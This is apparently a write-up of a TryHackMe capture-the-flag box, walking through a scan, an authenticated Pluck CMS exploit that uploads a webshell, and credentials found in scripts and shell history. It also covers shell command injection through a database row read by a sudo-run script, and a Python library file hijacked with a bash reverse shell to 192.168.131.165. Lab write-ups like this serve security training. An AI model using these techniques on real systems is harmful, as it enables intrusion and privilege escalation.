




# Nmap: 
---
```bash
nmap -T4 -A -p 22,80 10.112.137.152 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 86:10:ce:74:d5:b2:cc:cd:cd:55:5d:f6:e4:cf:c2:d3 (RSA)
|   256 cd:a7:8b:32:a1:22:d8:e2:0d:ec:ef:ac:c5:c6:63:2d (ECDSA)
|_  256 a5:c3:97:87:28:d7:d2:9e:63:52:d4:df:39:2c:e0:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- lets open up the website 
# Web Server: 
---



- we can see the default apache2 page
- lets use `gobuster` to find hidden files and directory's: 

```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.112.137.152/ -o gobuster/first_enum
```

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.112.137.152/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.php                 (Status: 403) [Size: 279]
.html                (Status: 403) [Size: 279]
.htm                 (Status: 403) [Size: 279]
app                  (Status: 301) [Size: 314] [--> http://10.112.137.152/app/]
.                    (Status: 200) [Size: 10918]
.htaccess            (Status: 403) [Size: 279]
.phtml               (Status: 403) [Size: 279]
...
```

- in `/app` we can find a folder named `pluck-4.7.13` 
- if we move into the folder we can see this: 



- we now know that the web servers uses `pluck 4.7.13` and we can search for any known exploit 
- after searching I found this [exploit](https://www.exploit-db.com/exploits/49909), but this exploit only works if we are `authenticated` 
- when we click on `admin` we can see a login form: 


- we only have to enter a password so I tested some basic ones and found out that `password` was the password


- now we can use our `exploit`: 
```bash
erik@Archie:~/Desktop/TryHackMe/Dreaming$ python exploit.py 10.112.137.152 80 password /app/pluck-4.7.13/

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.112.137.152:80/app/pluck-4.7.13//files/shell.phar
```



# Lucien Flag:
---
- if we navigate to `/opt`, we can find two scripts: 
```bash
www-data@ip-10-112-137-152:/opt$ ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15  2023 .
drwxr-xr-x 20 root   root   4096 Jul 18 20:29 ..
-rwxrw-r--  1 death  death  1574 Aug 15  2023 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7  2023 test.py
```

- if we open up `test.py`, we can find the password for `lucien`: 
```python
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "<Redacted>"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
```

- with this password we can log into `Lucien` and get the first flag in the home directory from Lucien: 
```bash
THM{<Redacted>}
```

# Death Flag: 
---
- `sudo -l` as Lucien:

```bash
Matching Defaults entries for lucien on ip-10-113-181-123:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on ip-10-113-181-123:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

- I also found this in the history of `Lucien`: 
```bash
mysql -u lucien -p<Redacted>
```

- lets look at `home/death/getDreams.py`: 
```bash
-rwxrwx--x 1 death death 1539 Aug 25  2023 getDreams.py
```

- it seems like we cannot read this file, but we also saw a different version of the file in `/opt` 
- lets navigate to `/opt` and look at this version of the file: 

```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

- you can see that the value of `DB_PASS` is redacted
- we can also see that data is getting fetched from the `library` database, specific from the `dreams` table 
- the data then gets executed in an `echo` statement: 

```python
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
print(shell)
```

- so we could log into the database with `Lucien` and add one `evil` row, that for example reads the version of `getDreams.py` in `/home/death`
- so that we get the password from `death`

```sql
mysql -u lucien -p
use library;
INSERT INTO dreams (dreamer, dream) VALUES ("$(cat /home/death/getDreams.py)", "");
```

- lets run the script: 

```bash
lucien@ip-10-113-181-123:/opt$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

death + test

import mysql.connector import subprocess # MySQL credentials DB_USER = "death" DB_PASS = "<Redacted>" DB_NAME = "library" def getDreams(): try: # Connect to the MySQL database connection = mysql.connector.connect( host="localhost", user=DB_USER, password=DB_PASS, database=DB_NAME ) # Create a cursor object to execute SQL queries cursor = connection.cursor() # Construct the MySQL query to fetch dreamer and dream columns from dreams table query = "SELECT dreamer, dream FROM dreams;" # Execute the query cursor.execute(query) # Fetch all the dreamer and dream information dreams_info = cursor.fetchall() if not dreams_info: print("No dreams found in the database.") else: # Loop through the results and echo the information using subprocess for dream_info in dreams_info: dreamer, dream = dream_info command = f"echo {dreamer} + {dream}" shell = subprocess.check_output(command, text=True, shell=True) print(shell) except mysql.connector.Error as error: # Handle any errors that might occur during the database connection or query execution print(f"Error: {error}") finally: # Close the cursor and connection cursor.close() connection.close() # Call the function to echo the dreamer and dream information getDreams() +
```

- we can now log into `death` and read the `flag`: 
```bash
THM{<Redacted>}
```

# Morpheus Flag: 
---
- in the home directory of `Morpheus` we can find a file called `restore.py`: 

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

- lets search for `shutil`, to see if we can modify it: 

```bash
-rw-rw-r-- 1 root death 51474 Mar 18  2025 /usr/lib/python3.8/shutil.py
```

- now we know that we can modify the file, but we have to figure out how to execute `restore.py`, because this are the permissions: 

```bash
-rw-rw-r-- 1 morpheus morpheus 180 Aug  7  2023 /home/morpheus/restore.py
```

- so I transferred the program: `pspy64` from my local machine to the target machine and executed it: 

```bash
2026/07/19 09:41:24 CMD: UID=0     PID=10     | 
2026/07/19 09:41:24 CMD: UID=0     PID=8      | 
2026/07/19 09:41:24 CMD: UID=0     PID=6      | 
2026/07/19 09:41:24 CMD: UID=0     PID=5      | 
2026/07/19 09:41:24 CMD: UID=0     PID=4      | 
2026/07/19 09:41:24 CMD: UID=0     PID=3      | 
2026/07/19 09:41:24 CMD: UID=0     PID=2      | 
2026/07/19 09:41:24 CMD: UID=0     PID=1      | /sbin/init splash noprompt noshell automatic-ubiquity vt.handoff=7 
2026/07/19 09:42:01 CMD: UID=0     PID=2113   | /usr/sbin/CRON -f 
2026/07/19 09:42:01 CMD: UID=1002  PID=2114   | /usr/sbin/CRON -f 
2026/07/19 09:42:01 CMD: UID=1002  PID=2115   | /bin/sh -c /usr/bin/python3.8 /home/morpheus/restore.py 
2026/07/19 09:42:01 CMD: UID=1002  PID=2116   | 
2026/07/19 09:42:01 CMD: UID=1002  PID=2117   | sh -c /bin/bash 

```

- as we can see `restore.py` gets probably executed by a cronjob 
- lets navigate `/usr/lib/python3.8/` and try to change the `copy2` method: 

```python
def copy2(src, dst, *, follow_symlinks=True):
    """Copy data and metadata. Return the file's destination.

    Metadata is copied with copystat(). Please see the copystat function
    for more information.

    The destination may be a directory.

    If follow_symlinks is false, symlinks won't be followed. This
    resembles GNU's "cp -P src dst".
    Test
    """
    os.system("bash -c '/bin/bash -i >& /dev/tcp/192.168.131.165/1234 0>&1'")

    if os.path.isdir(dst):
        dst = os.path.join(dst, os.path.basename(src))
    copyfile(src, dst, follow_symlinks=follow_symlinks)
    copystat(src, dst, follow_symlinks=follow_symlinks)
    return dst
```

- I added this line: 
```python
os.system("bash -c '/bin/bash -i >& /dev/tcp/192.168.131.165/1234 0>&1'")
```

- I saved the changes and started a listener with netcat on my local machine: 
```bash
nc -lnvp 1234
```

- then I waited for like 1 minute and got a reverse shell



- now we can read the last `flag`, located in `Morpheus` home directory: 
```bash
THM{<Redacted>}
```